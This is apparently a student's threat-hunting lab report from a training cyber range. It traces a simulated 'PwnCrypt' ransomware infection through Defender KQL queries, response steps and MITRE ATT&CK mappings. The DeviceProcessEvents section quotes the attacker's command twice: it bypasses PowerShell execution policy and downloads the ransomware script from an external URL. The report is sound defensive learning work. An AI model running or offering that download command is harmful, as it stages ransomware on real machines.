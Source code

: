 # Lab notes - Timeline Summary and Findings

## Scenario

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.
The security program at the org is still immature and even lacks user training. It’s possible the newly discovered ransomware has made its way onto the corporate network. The hunt can be initiated based on the known IoCs (*.pwncrypt.* files)

___

## Investigation - DeviceFileEvents

I searched for any files that were encrypted by the PwnCrypt ransomware by looking at logs that contained “.pwncrypt”. I found some logs that shows a PowerShell script running and shows the encrypted files’ folderpath. This suggests that the VM (windows-target-1) has been infected with the ransomware. From the logs, it looks like the encrypted files are created on the desktop, and renamed in the temp folders.

```kql
let VMname = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMname
| where FolderPath contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, FolderPath, ActionType, InitiatingProcessCommandLine
```

![DeviceFileEvents](images/DeviceFileEvents.png)
____

## Investigation - DeviceProcessEvents

I cross-referenced these findings around the same time in the DeviceProcessEvents logs. I found both cmd and powershell scripts being run. The results in the ProcessCommandLine shows that the script bypasses the execution policy, downloads the code for PwnCrypt from a URL via Invoke-WebRequest, and outputs the file as C:\programdata\pwncrypt.ps1.
```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

```powershell
powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

```kql
// 2025-06-10T16:13:46.9449819Z
let VMname = "windows-target-1";
let specificTime = datetime(2025-06-10T16:13:46.9449819Z);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where ProcessCommandLine contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine
```

![DeviceProcessEvents](images/DeviceProcessEvents.png)

____

## Response:
As a result of these findings, the device was immediately isolated. I created a detection rule to find other devices that may have been infected with the PwnCrypt ransomware, and isolated those devices as well. I immediately relayed this information to the CISO, with all the relevant information at this point in time. Upon waiting for the response of the CISO, I continued to document all the infected systems on what was encrypted, and how many systems and devices were compromised. Due to our security program being immature, we will need assistance with the investigation of the encrypted files and determine how to remediate the encrypted files.  

____

## Improvements:
Due to the organisation’s immature security program, this case should be used to highlight the importance of security within the organisation’s systems and network. Furthermore, there is a strong and urgent need to educate employees on security threats. Furthermore, as a temporary control, more investigations on other known malware and ransomware should be conducted and detection alerts should be implemented until the organisation can harden the systems.

____

## MITRE ATT&CK Framework TTPs

| **Tactic**          | **Technique ID** | **Technique Name**                                       | **Description**                                                             |
| ------------------- | ---------------- | -------------------------------------------------------- | --------------------------------------------------------------------------- |
| Execution           | T1059.001        | Command and Scripting Interpreter: PowerShell            | Uses PowerShell with `-ExecutionPolicy Bypass`.                             |
| Execution           | T1059.003        | Command and Scripting Interpreter: Windows Command Shell | Uses `cmd.exe` to initiate PowerShell payload.                              |
| Defense Evasion     | T1562.001        | Disable or Modify Tools: Security Software Discovery     | Bypasses execution policy, evades traditional security tooling.             |
| Collection          | T1119            | Automated Collection                                     | Automatically encrypts files from known directories.                        |
| Impact              | T1486            | Data Encrypted for Impact                                | Encrypted data using AES-256; filenames changed with `.pwncrypt` extension. |
| Command and Control | T1105            | Ingress Tool Transfer                                    | Payload delivered via `Invoke-WebRequest` from external GitHub URL.         

----

## Notes

* This incident has reinforced the importance of proactive threat hunting, user education, and modular detection techniques using tools like KQL and Microsoft Defender for Endpoint.
* Screenshots and KQL outputs have been archived locally.
* This report is part of my cybersecurity learning portfolio from Josh Madakor's Cyber Range.
